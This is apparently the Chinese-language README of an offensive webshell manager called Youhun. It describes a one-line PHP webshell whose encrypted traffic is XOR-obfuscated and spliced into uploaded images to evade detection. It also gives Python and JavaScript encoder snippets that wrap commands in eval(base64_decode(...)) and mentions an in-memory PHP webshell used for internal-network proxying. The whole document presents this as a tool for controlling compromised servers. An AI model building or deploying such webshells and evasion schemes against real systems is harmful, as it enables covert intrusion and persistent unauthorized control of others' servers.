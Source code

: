 # 游魂新型一句话PHP Webshell

为了解决传统一句话Webshell存在的易查杀，流量明显的问题，冰蝎和哥斯拉使用AES加密等加密算法加密流量，使得payload无法被中间人截获。

但是这也存在一系列问题。其中最大的问题是加密流量特征明显，容易被各类分析手段识别。中间人虽然看不到具体的payload, 但还是可以看到一串“特定长度的加密数据”发向一个“后缀为.php的路径”，特征明显。

为了解决这个问题，我们需要引入简单且有效的混淆算法，将加密数据隐藏在上传图片等内容中，这就是游魂Webshell的设计亮点。

游魂Webshell是一种同时加密和混淆流量的一句话Webshell，在混淆流量时使用异或编码，并使用特殊的8字节标记流量的开头和结尾，从而可以将流量拼接在任意数据之中。

流量混淆层设计如下：

|开头标记|XOR密钥|加密层数据|结尾标记|
|------|-------|-------|------|
|8B    |8B     |xB     |8B    |

其中开头和结尾标记是根据webshell密码算出的8字节字节串。因为这两个标记，webshell可以从任意流量中准确定位payload位置，所以可以将payload拼接在任意数据之中。

因为标记、XOR密钥和加密层数据都形似随机数据，所以和其他形似随机的数据拼接在一起时难以被检测。

加密层设计如下：

|action|RSA密钥/AES加密的PHP代码|
|------|---------------------|
|1B    |xB                   |

连接webshell的过程如下：

1. 控制段向被控端请求AES密钥，同时发送自己的RSA公钥（可选），被控端指定一个AES密钥，保存在session中，用公钥加密并返回给控制端
2. 控制段用私钥解密，得到AES密钥，自此开始使用AES加密PHP代码，并发送给被控端执行

缺点：

- webshell体积较大
- 发送rsa公钥时的流量仍然留有特征
- 暂时没有做免杀

# 如何自定义Encoder

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_encoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

def encode(code: str):
    return f"eval(base64_decode({base64.b64encode(code.encode()).decode()!r}));"
```

最后重启游魂即可在webshell编辑页面看到encoder

注意：encode函数的返回值可以是str或bytes，代表需要执行的PHP代码

# 如何自定义Decoder

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_decoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

phpcode = """
function decoder_echo_raw($s) {
    echo base64_encode($s);
}
"""

def decode(s: str) -> str:
    return base64.b64decode(s).decode()
```

最后重启游魂即可在webshell编辑页面看到decoder

# 如何将蚁剑的encoder和decoder导入到游魂中

首先根据启动时打印的路径打开游魂的配置文件夹

然后在`AntSwordEncoder`或`AntSwordDecoder`中写入js文件，并重启游魂即可

比如在`AntSwordEncoder`写入文件`example-base64.js`

```js
module.exports = (pwd, data, ext={}) => {
    let randomID = `_0x${Math.random().toString(16).substr(2)}`;
    data[randomID] = Buffer.from(data['_']).toString('base64');
    data[pwd] = `eval(base64_decode($_POST[${randomID}]));`;
    delete data['_'];
    return data;
}
```

或者在`AntSwordDecoder`写入文件`example-base64.js`

```js
module.exports = {
  asoutput: () => {
    return `function asenc($out){
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  decode_buff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}
```

完成后可以在webshell编辑界面看到encoder

注意：游魂不支持和蚁剑内部设计高度相关的某些环境变量，某些encoder需要进行修改才能使用

# 如何自定义壁纸

把壁纸重命名为`bg.jpg`, `bg.png`或者`bg.webp`丢到游魂的配置文件夹（启动时打印的路径），然后在游魂的设置页面把主题改成“玻璃”

# Q&A: 为什么不支持在网页端添加encoder和decoder?

Encoder和Decoder会在服务端启动的时候作为代码被加载，如果蓝队登陆了红队的游魂则可以通过添加Encoder的方式控制服务器

所以为了防止RCE漏洞，游魂不应该支持在网页端添加encoder和decoder

# Q&A: 为什么正向代理有Vessel和伪正向两种代理？Vessel是什么？

Vessel是我自己写的一个PHP持久化内存马，可以通过文件和Session两种方式通信。本来正向代理功能是打算直接联动[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)的，但是Neo-reGeorg的许可证是GPL3，如果用他们的代码的话就要换许可证了。

本来计划是写一个PHP内存马然后通过文件实现与内存马的通信，但是看了Neo-reGeorg的代码后才发现Session竟然可以这么用来通信，然后才加上了Session的通信方式。

Vessel没有经过多少测试，功能也只是基本能用的状态，速度应该也比不上Neo-reGeorg，但是用来做内网渗透应该是够的。

伪正向代理是用gopher协议以类似SSRF的方式发送流量，因为是SSRF所以基本上只能支持HTTP之类的协议。
